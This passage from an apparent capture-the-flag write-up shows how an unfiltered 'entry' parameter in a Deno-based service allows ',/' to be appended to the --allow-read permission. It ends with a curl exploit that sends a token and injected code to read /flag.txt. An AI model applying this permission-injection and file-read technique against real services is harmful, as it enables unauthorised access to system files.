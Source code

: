 Thankfully, `Deno` allows multiple entries separated by a comma to be specified in the `--allow-read` flag, and, since the `entry` parameter isn't filtered in any way, the root directory can be specified after a comma, which would allow us to read any files on the system:

![Successful directory read example](./screenshots/6.png)

After which all that is left to do is read the flag:

![Flag read](./screenshots/7.png)

Here's the final exploit:

```sh
curl $TASK_URL -i \
  -H "Monitor-Access-Token: MEGALITH_MONITORING_SYSTEM_EZRVJJCQ4ET3W25BONANMPWPQSRV7JXE" \
  -H "Content-Type: application\json" \
  --data-raw '{"entry": ",/", "cmd": "console.log(new TextDecoder(\"utf-8\").decode(Deno.readFileSync(\"/flag.txt\")))"}'
```
